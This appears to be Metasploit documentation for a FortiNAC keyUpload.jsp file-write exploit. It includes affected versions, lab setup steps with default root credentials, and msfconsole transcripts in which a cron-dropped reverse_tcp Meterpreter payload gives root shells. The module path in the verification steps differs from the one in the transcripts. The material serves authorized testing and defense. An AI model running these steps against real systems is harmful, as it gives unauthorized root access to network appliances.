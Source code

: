 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `/configWizard/keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

FortiNAC version 9.4 prior to 9.4.1
FortiNAC version 9.2 prior to 9.2.6
FortiNAC version 9.1 prior to 9.1.8
FortiNAC 8.8 all versions
FortiNAC 8.7 all versions
FortiNAC 8.6 all versions
FortiNAC 8.5 all versions
FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email, click the link in the email in order to access the
free product download.

Import the OVF file into your virtualization software of choice. Personally, I had success using VMware Fusion. Change the network
interface from Bridged to Host Only. Once the machine turns on, log in with the following default credentials as outlined
in the [VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP Address of the machine:

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

Follow the installation steps, everything should be straight forward. When asked for the license key, provide
the `.licenseKey` file you downloaded from the Python HTTP server. Set the hostname to `localhost`.
The domain can be set to `localhost.localdomain`. You will be required to change the default passwords from the
GUI and once complete, restart the machine. You should now have a vulnerable instance of FortiNAC configured.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 CMD Target

```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 4044
lport => 4044
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:4044
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4044 -> 192.168.123.11:59938) at 2023-03-09 17:01:02 -0500
[!] This exploit may require manual cleanup of '/etc/cron.d/ZlzEXbWF' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/linux/http/fortinac_keyupload_file_write
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   CMD
    1   Linux x86
    2   Linux x64


msf6 exploit(linux/http/fortinac_keyupload_file_write) > set target 2
target => 2
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/fortinac_keyupload_file_write) > set lport 9909
lport => 9909
msf6 exploit(linux/http/fortinac_keyupload_file_write) > run

[*] Started reverse TCP handler on 192.168.123.1:9909
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target indicated a successful upload occurred!
[*] Sending zipped payload to /configWizard/keyUpload.jsp
[*] Sending zipped cron job to /configWizard/keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 3 opened (192.168.123.1:9909 -> 192.168.123.11:38266) at 2023-03-09 17:31:01 -0500
[!] This exploit may require manual cleanup of '/tmp/HcYciseH' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/DsxejZgV' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

